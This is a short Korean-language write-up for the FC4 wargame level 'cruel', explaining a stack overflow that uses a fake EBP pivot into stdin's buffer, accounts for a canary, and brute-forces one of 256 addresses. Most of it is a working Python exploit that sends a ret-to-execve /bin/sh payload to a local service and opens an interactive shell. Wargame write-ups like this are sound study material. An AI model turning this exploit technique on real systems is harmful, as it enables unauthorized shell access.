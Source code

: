 ```yaml
---
title: FC4 cruel -> enigma
date: 2017-01-07 03:05:00 +0900 KST
categories: [write-up]
---
```


ret 영역 다음에 canary가 있다는 걸 생각하야 한다.

fake ebp를 이용해서 stdin의 임시버퍼 영역을 공략한다.

이 영역의 주소가 계속 바뀌긴 하지만 경우의 수가 겨우 256가지뿐이다.

특정한 주소로 공격하면 256분의 1의 확률로 공격에 성공할 수 있다.

난 execl을 호출해서 쉘을 따려고 했는데 계속 안됐다... execve는 되던데

아래는 익스플로잇 코드

```python
#!/usr/bin/python
from struct import pack
from socket import *
from time import sleep

p = lambda x : pack('<L', x)

fake_ebp  = 0xb7f5e000 + 260 + 4 * 2
leave_ret = 0x0804858e
canary    = 0x00031337
execve    = 0x00832abc
binsh     = 0x008bd987

null         = 0x00000000
null_ptr     = fake_ebp + 4 * 7
null_ptr_ptr = fake_ebp + 4 * 6

buffer = 'A' * 256
dummy  = 'A' * 4

payload  = buffer + dummy
payload += p(fake_ebp) + p(leave_ret) + p(canary)
payload += p(execve) + dummy + p(binsh) + p(null_ptr_ptr) + p(null_ptr_ptr)
payload += p(null_ptr) + p(null)
payload += '\n'

for i in xrange(1000):
    print i

    s = socket(AF_INET, SOCK_STREAM)
    s.connect(( 'localhost', 7777 ))
    s.recv(1024)
    s.send(payload)
    sleep(0.1)

    s.send('id\n')
    if s.recv(1024):
        while True:
            try:
                s.send(raw_input('$ ') + '\n')
            except EOFError:
                s.close()
                break
            print s.recv(1024)
        break
    s.close()
```
